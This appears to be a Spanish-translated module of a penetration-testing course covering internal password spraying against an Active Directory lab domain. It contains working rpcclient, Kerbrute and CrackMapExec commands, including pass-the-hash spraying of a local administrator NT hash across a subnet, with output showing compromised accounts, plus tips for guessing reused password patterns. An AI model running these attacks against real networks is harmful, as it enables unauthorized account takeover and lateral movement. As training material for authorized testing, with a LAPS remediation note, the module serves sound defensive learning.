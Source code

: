Ahora que hemos creado una lista de palabras usando uno de los métodos descritos en las secciones anteriores, es hora de ejecutar nuestro ataque. Las siguientes secciones nos permitirán practicar Password Spraying desde hosts Linux y Windows. Este es un enfoque clave para nosotros, ya que es una de las dos principales vías para obtener credenciales de dominio para el acceso, pero también una en la que debemos proceder con cautela.

---

## Internal Password Spraying from a Linux Host

Una vez que hemos creado una lista de palabras usando uno de los métodos mostrados en la sección anterior, es hora de ejecutar el ataque. `Rpcclient` es una excelente opción para realizar este ataque desde Linux. Una consideración importante es que un inicio de sesión válido no es inmediatamente aparente con `rpcclient`, con la respuesta `Authority Name` indicando un inicio de sesión exitoso. Podemos filtrar los intentos de inicio de sesión inválidos buscando `Authority` en la respuesta. El siguiente one-liner de Bash (adaptado de [aquí](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)) se puede usar para realizar el ataque.

### Using a Bash one-liner for the Attack

```r
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Probemos esto en el entorno objetivo.

```r
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

También podemos usar `Kerbrute` para el mismo ataque como se discutió anteriormente.

### Using Kerbrute for the Attack

```r
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```

Hay múltiples otros métodos para realizar password spraying desde Linux. Otra gran opción es usar `CrackMapExec`. La herramienta siempre versátil acepta un archivo de texto de nombres de usuario para ser ejecutado contra una sola contraseña en un ataque de spraying. Aquí buscamos `+` para filtrar los fallos de inicio de sesión y centrarnos solo en los intentos de inicio de sesión válidos para asegurarnos de no perder nada al desplazarnos por muchas líneas de salida.

### Using CrackMapExec & Filtering Logon Failures

```r
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

Después de obtener uno (¡o más!) éxitos con nuestro ataque de password spraying, podemos usar `CrackMapExec` para validar rápidamente las credenciales contra un Domain Controller.

### Validating the Credentials with CrackMapExec

```r
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

---

## Local Administrator Password Reuse

El password spraying interno no solo es posible con cuentas de usuario del dominio. Si obtienes acceso administrativo y el hash de la contraseña NTLM o la contraseña en texto claro para la cuenta de administrador local (u otra cuenta local privilegiada), esto se puede intentar en múltiples hosts en la red. El reuso de contraseñas de cuentas de administrador local es común debido al uso de imágenes doradas en despliegues automatizados y la aparente facilidad de gestión al imponer la misma contraseña en múltiples hosts.

CrackMapExec es una herramienta útil para intentar este ataque. Vale la pena apuntar a hosts de alto valor como `SQL` o servidores de `Microsoft Exchange`, ya que es más probable que tengan un usuario altamente privilegiado conectado o que sus credenciales persistan en la memoria.

Cuando trabajamos con cuentas de administrador local, una consideración es el reuso de contraseñas o formatos comunes de contraseñas en las cuentas. Si encontramos un host de escritorio con la contraseña de la cuenta de administrador local configurada a algo único como `$desktop%@admin123`, podría valer la pena intentar `$server%@admin123` en los servidores. Además, si encontramos cuentas de administrador local no estándar como `bsmith`, podríamos encontrar que la contraseña se reutiliza para una cuenta de usuario del dominio con un nombre similar. El mismo principio puede aplicarse a las cuentas de dominio. Si recuperamos la contraseña de un usuario llamado `ajones`, vale la pena intentar la misma contraseña en su cuenta de administrador (si el usuario tiene una), por ejemplo, `ajones_adm`, para ver si están reutilizando sus contraseñas. Esto también es común en situaciones de confianza de dominio. Podemos obtener credenciales válidas para un usuario en el dominio A que sean válidas para un usuario con el mismo nombre o similar en el dominio B o viceversa.

A veces solo podemos recuperar el hash NTLM para la cuenta de administrador local desde la base de datos local SAM. En estos casos, podemos realizar un spray del hash NT en todo un subred (o múltiples subredes) para buscar cuentas de administrador local con la misma contraseña configurada. En el ejemplo a continuación, intentamos autenticarnos en todos los hosts en una red /23 usando el hash NT de la cuenta de administrador local incorporada recuperada de otra máquina. El flag `--local-auth` indicará a la herramienta que intente iniciar sesión solo una vez en cada máquina, lo que elimina cualquier riesgo de bloqueo de cuenta. `Asegúrate de que este flag esté configurado para no bloquear potencialmente al administrador incorporado para el dominio`. Por defecto, sin la opción de autenticación local configurada, la herramienta intentará autenticarse usando el dominio actual, lo que podría resultar rápidamente en bloqueos de cuenta.

### Local Admin Spraying with CrackMapExec

```r
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

La salida anterior muestra que las credenciales eran válidas como administrador local en `3` sistemas en la subred `172.16.5.0/23`. Luego podríamos movernos para enumerar cada sistema y ver si podemos encontrar algo que nos ayude a avanzar en nuestro acceso.

Esta técnica, aunque efectiva, es bastante ruidosa y no es una buena opción para cualquier evaluación que requiera sigilo. Siempre vale la pena buscar este problema durante las pruebas de penetración, incluso si no es parte de nuestro camino para comprometer el dominio, ya que es un problema común y debe ser destacado para nuestros clientes. Una forma de remediar este problema es usar la herramienta gratuita de Microsoft [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) para que Active Directory gestione las contraseñas de administrador local y haga cumplir una contraseña única en cada host que rote en un intervalo establecido.